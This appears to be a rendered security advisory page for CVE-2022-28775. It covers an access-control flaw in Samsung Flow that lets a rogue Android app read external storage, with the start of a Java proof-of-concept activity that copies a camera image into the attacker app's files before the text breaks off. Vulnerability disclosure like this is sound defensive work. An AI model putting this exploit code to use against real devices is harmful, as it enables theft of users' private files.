 ```yaml
---
layout: cve
title: "Samsung Flow File System Access"
cve_id: "CVE-2022-28775"
date: 2022-04-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28775
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=4
description: "Improper access control vulnerability in Samsung Flow prior to version 4.8.06.5 allows attacker to write the file without Samsung Flow permission."
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-flow-any-app-can-read-the-external-storage/](https://labs.f-secure.com/advisories/samsung-flow-any-app-can-read-the-external-storage/)

|    **Product**    | Samsung Flow prior to version 4.8.06.5 |
|    **Severity**   |                  Medium                  |
| **CVE Reference** |             CVE-2022-28775             |
|      **Type**     |      Security Control Bypass      |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. Samsung Flow, an application offered on the Galaxy Store, had an issue with how it handled broadcasted intents. A rogue application could use this issue to read contents on the device's external storage without requiring the proper Android permissions.

## The Exploit

As an example, the following exploit code will exfiltrate a picture taken by the device's camera. This example requires two parts. First, the rogue application must contain an exported activity with the following Java code:

```
public class IntentProxyToContentProvider extends Activity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Uri uri = Uri.parse(getIntent().getDataString());
        try {
            Bitmap bitmap = BitmapFactory.decodeStream(getContentResolver().openInputStream(uri));
            String yayuriyay = MediaStore.Images.Media.insertImage(getContentResolver(),
                bitmap,
                "yaytitleyay",
                "yaydescriptionyay");
            InputStream input = getContentResolver().openInputStream(Uri.parse(yayuriyay));
            File file = new File(getFilesDir(), "yayoutputyay.jpg");
            FileOutputStream output = new FileOutputStream(file);
            try{
                byte[] buf = new byte[1024];
                int len;
                while ((len = input.read(buf)) > 0) {
                    output.write(buf, 0, len);
                }
          } catch (Exception e) {
                e.printStackTrace();
          } finally {
                try {
```